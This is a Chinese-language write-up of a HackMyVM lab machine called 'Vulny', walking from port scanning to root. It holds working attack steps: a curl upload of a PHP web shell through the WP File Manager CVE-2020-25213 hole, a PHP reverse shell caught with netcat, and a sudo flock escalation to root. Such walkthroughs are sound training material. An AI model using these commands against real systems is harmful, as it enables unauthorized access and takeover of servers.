







# Vulny


| 靶机名称 | 作者 | 难度 | 平台     |
| -------- | ---- | ---- | -------- |
| Vulny    | sml  | 简单 | HackMyVm |

## 网络配置

我主要是在VM上导入虚拟机，VM的虚拟网卡名称为ens33，我们要进入紧急模式，修改虚拟网卡名称，这样我们才能获得ip。

打开虚拟机，进入虚拟机，立即长按shift，等到页面发生变化:



按 e 进入编辑模式，将内容修改为：



按ctrl - x。

ubuntu的网络配置在`/etc/netplan`文件夹里面，将网卡改为ens33即可：



重启虚拟机，我们就可以获得IP。

## 侦察

### 端口扫描

```shell
warn@kali:~$ nmap -sC -sV 192.168.174.138
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-05 09:58 CST
Nmap scan report for 192.168.174.138
Host is up (0.00011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:95:C7:F0 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```

### web应用分析

发现80端口是一个默认的apache2 的界面：



### 目录枚举

```shell
warn@kali:~$ gobuster dir -u http://192.168.174.138/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.138/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.174.138/javascript/]
/secret               (Status: 301) [Size: 319] [--> http://192.168.174.138/secret/]
/server-status        (Status: 403) [Size: 280]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

warn@kali:/tmp/123$ curl -i -s http://192.168.174.138/secret/                                
HTTP/1.0 404 Not Found
Date: Sun, 05 Apr 2026 02:04:23 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 225
Connection: close
Content-Type: text/html; charset=UTF-8

Neither <b>/etc/wordpress/config-192.168.174.138.php</b> nor <b>/etc/wordpress/config-168.174.138.php</b> could be found. <br/> Ensure one of them exists, is readable by the webserver and contains the right password/username.

# 在/secret目录下存在wordpress
# 没有找到配置文件
# 对/secret目录再次进行目录枚举(我当时思想上有些浮躁，没有想到这一步。)

warn@kali:/tmp/123$ gobuster dir -u http://192.168.174.138/secret -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.138/secret
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/wp-admin             (Status: 301) [Size: 328] [--> http://192.168.174.138/secret/wp-admin/]
/wp-includes          (Status: 301) [Size: 331] [--> http://192.168.174.138/secret/wp-includes/]
/wp-content           (Status: 301) [Size: 330] [--> http://192.168.174.138/secret/wp-content/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

# 进行访问，只在wp-content目录下发现内容
```



在`http://192.168.174.138/secret/wp-content/uploads/2020/10/wp-file-manager-6.O.zip`找到wp-file-manager-6.0的压缩文件。它是wordpress的一个插件，网上搜索发现`wp-file-manager-6.0`存在`CVE-2020-25213`高危漏洞。

## 漏洞分析(CVE-2020-25213)

CVE-2020-25213 WP File Manger 未授权文件上传漏洞

漏洞位于：`/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php`。

### **漏洞的核心特征**

1. 无认证校验：无nonce验证、无登陆校验、无权限判断，可直接未授权访问。
2. 无文件类型限制：配置`uploadAllow => array('all')`，允许上传任意文件（包含PHP）。
3. 支持cmd=upload上传参数，可直接上传恶意脚本。

### **漏洞验证**



```shell
warn@kali:/tmp/123/wp-file-manager/lib/php$ curl -i http://192.168.174.138/secret/wp-content/plugins/wp-file-
manager/lib/php/connector.minimal.php                                             
HTTP/1.1 200 OK
Date: Sun, 05 Apr 2026 02:35:15 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: PHPSESSID=r2an93p7looluvki33rjtt8mfv; path=/
Content-Length: 27
Content-Type: application/json; charset=utf-8

{"error":["errUnknownCmd"]}   
```

访问 200，漏洞点存在。

## 初始权限获取

### **制作payload**

```shell
vim cmd.php
<?php system($_POST['cmd']); ?>
```

### **文件上传**

```shell
curl -X POST -F 'cmd=upload' -F 'target=l1_Lw' -F 'upload[]=@cmd.php' 'http://192.168.174.138/secret/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php' 
```

```shell
warn@kali:/tmp/123$ curl -X POST -F 'cmd=upload' -F 'target=l1_Lw' -F 'upload[]=@cmd.php' 'http://192.168.174.138/secret/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php' 
{"added":[{"isowner":false,"ts":1775357060,"mime":"text\/x-php","read":1,"write":1,"size":"32","hash":"l1_Y21kLnBocA","name":"cmd.php","phash":"l1_Lw","url":"\/secret\/wp-content\/plugins\/wp-file-manager\/lib\/php\/..\/files\/cmd.php"}],"removed":[],"changed":[{"isowner":false,"ts":1775350468,"mime":"directory","read":1,"write":1,"size":0,"hash":"l1_Lw","name":"files","rootRev":"","options":{"path":"","url":"","tmbUrl":"","disabled":[],"separator":"\/","copyOverwrite":1,"uploadOverwrite":1,"uploadMaxSize":9223372036854775807,"uploadMaxConn":3,"uploadMime":{"firstOrder":"deny","allow":["all"],"deny":["all"]},"dispInlineRegex":"^(?:(?:video|audio)|image\/(?!.+\\+xml)|application\/(?:ogg|x-mpegURL|dash\\+xml)|(?:text\/plain|application\/pdf)$)","jpgQuality":100,"archivers":{"create":[],"extract":[],"createext":[]},"uiCmdMap":[],"syncChkAsTs":1,"syncMinMs":0,"i18nFolderName":0,"tmbCrop":1,"tmbReqCustomData":false,"substituteImg":true,"onetimeUrl":true,"trashHash":"t1_Lw","csscls":"elfinder-navbar-root-local"},"volumeid":"l1_","locked":1,"isroot":1,"phash":""}]}  
```

### **验证远程代码执行**

```shell
warn@kali:/tmp/123$ curl -i -s http://192.168.174.138/secret/wp-content/plugins/wp-file-manager/lib/files/cmd.php -X POST -d "cmd=id"
HTTP/1.1 200 OK
Date: Sun, 05 Apr 2026 02:46:18 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 54
Content-Type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 反弹shell

```shell
warn@kali:/tmp/123$ cp ~/Desktop/tools/php-reverse-shell.php test.php
                                                                                                             
warn@kali:/tmp/123$ curl -X POST -F 'cmd=upload' -F 'target=l1_Lw' -F 'upload[]=@test.php' 'http://192.168.174.138/secret/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php' 
{"added":[{"isowner":false,"ts":1775357465,"mime":"text\/x-php","read":1,"write":1,"size":"5498","hash":"l1_dGVzdC5waHA","name":"test.php","phash":"l1_Lw","url":"\/secret\/wp-content\/plugins\/wp-file-manager\/lib\/php\/..\/files\/test.php"}],"removed":["l1_dGVzdC5waHA"],"changed":[{"isowner":false,"ts":1775357060,"mime":"directory","read":1,"write":1,"size":0,"hash":"l1_Lw","name":"files","rootRev":"","options":{"path":"","url":"","tmbUrl":"","disabled":[],"separator":"\/","copyOverwrite":1,"uploadOverwrite":1,"uploadMaxSize":9223372036854775807,"uploadMaxConn":3,"uploadMime":{"firstOrder":"deny","allow":["all"],"deny":["all"]},"dispInlineRegex":"^(?:(?:video|audio)|image\/(?!.+\\+xml)|application\/(?:ogg|x-mpegURL|dash\\+xml)|(?:text\/plain|application\/pdf)$)","jpgQuality":100,"archivers":{"create":[],"extract":[],"createext":[]},"uiCmdMap":[],"syncChkAsTs":1,"syncMinMs":0,"i18nFolderName":0,"tmbCrop":1,"tmbReqCustomData":false,"substituteImg":true,"onetimeUrl":true,"trashHash":"t1_Lw","csscls":"elfinder-navbar-root-local"},"volumeid":"l1_","locked":1,"isroot":1,"phash":""}]}    
# 先进行端口监听
warn@kali:~$ nc -lvvnp 39666   
# 这是在两个终端
warn@kali:/tmp/123$ curl -i -s http://192.168.174.138/secret/wp-content/plugins/wp-file-manager/lib/files/test.php
```

### **优化交互式shell**

```shell
warn@kali:~$ nc -lvvnp 39666                                                      
listening on [any] 39666 ...
connect to [192.168.174.130] from (UNKNOWN) [192.168.174.138] 34458
Linux vulny 5.4.0-51-generic #56-Ubuntu SMP Mon Oct 5 14:28:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:20:27 up  1:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
# 这还不是一个半交互式shell
# 我们先将shell升级为半交互式shell
# 再升级为全交互式shell
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@vulny:/$ ^Z
zsh: suspended  nc -lvvnp 39666
# 这里按ctrl+Z                                                                                                             
warn@kali:~$ stty raw -echo; fg
[1]  + continued  nc -lvvnp 39666
                                 ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
www-data@vulny:/$ ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
www-data@vulny:/$ 
# 这样我们就可以享受到全交互shell的功能了，很好用的。
```

## 横向移动

### **系统信息枚举**

```shell
www-data@vulny:/home$ ls  
adrian
www-data@vulny:/home$ ls adrian
user.txt
www-data@vulny:/home$ ls -al adrian
total 40
drwxr-xr-x 4 adrian adrian 4096 Apr  5 01:18 .
drwxr-xr-x 3 root   root   4096 Oct 15  2020 ..
-rw------- 1 adrian adrian   51 Oct 15  2020 .Xauthority
-rw------- 1 adrian adrian   89 Apr  5 01:18 .bash_history
-rw-r--r-- 1 adrian adrian  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 adrian adrian 3771 Feb 25  2020 .bashrc
drwx------ 2 adrian adrian 4096 Oct 15  2020 .cache
drwxrwxr-x 3 adrian adrian 4096 Oct 15  2020 .local
-rw-r--r-- 1 adrian adrian  807 Feb 25  2020 .profile
-rw-r--r-- 1 adrian adrian    0 Oct 15  2020 .sudo_as_admin_successful
-rw------- 1 adrian adrian   16 Oct 15  2020 user.txt
```

/home 发现adrian用户，在adrian目录下发现`.sudo_as_admin_successful`文件，说明该用户拥有sudo权限。

我们现在的目标就是：获取adrian权限。

**查看`wordpress`的配置文件**

```shell
www-data@vulny:/etc/wordpress$ cat config-192.168.1.122.php 
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'myfuckingpassword');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
# 发现/usr/share/wordpress/wp-content
# 在/usr/share/wordpress发现wordpress运行时的主配置入口wp-config.php
# 查看文件，发现一段奇怪的内容
www-data@vulny:/usr/share/wordpress$ cat wp-config.php
/* idrink[hidden] */
# 避免密码泄露，所以我只显示了一部分。
# 这可能是密码。
/* Default value for some constants if they have not yet been set
   by the host-specific config files */
```

### **切换至`adrian`用户**

```shell
www-data@vulny:/usr/share/wordpress$ su adrian
Password: 
adrian@vulny:/usr/share/wordpress$ sudo -l
Matching Defaults entries for adrian on vulny:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on vulny:
    (ALL : ALL) NOPASSWD: /usr/bin/flock
```

### **sudo提权至root权限**



```shell
adrian@vulny:/usr/share/wordpress$ sudo flock -u / /bin/bash
root@vulny:/usr/share/wordpress# id
uid=0(root) gid=0(root) groups=0(root)
```

### **获得flag**

```
root@vulny:/usr/share/wordpress# cat ~/root.txt
HMVididit
root@vulny:/usr/share/wordpress# cat /home/adrian/user.txt
HMViuploadfiles
```

## 总结

这是我目前打过的第一个带有CVE漏洞的，目前的思路还是比较欠缺的。

这里主要说一下思路上的问题：对于目录扫描，我只会扫描浅浅的一层，可能我昨天确实比较浮躁，并没有好好做这个靶场，这是第一点；当我打入内网后，我知道我最终要达到什么结果，我尝试了我已经知道的任何操作，都无法获得adrian的权限，在获取内网信息方面，我的能力还是不行。

这个是优化shell的方法，详细版：[CSDN](https://blog.csdn.net/2301_79518550/article/details/144730328)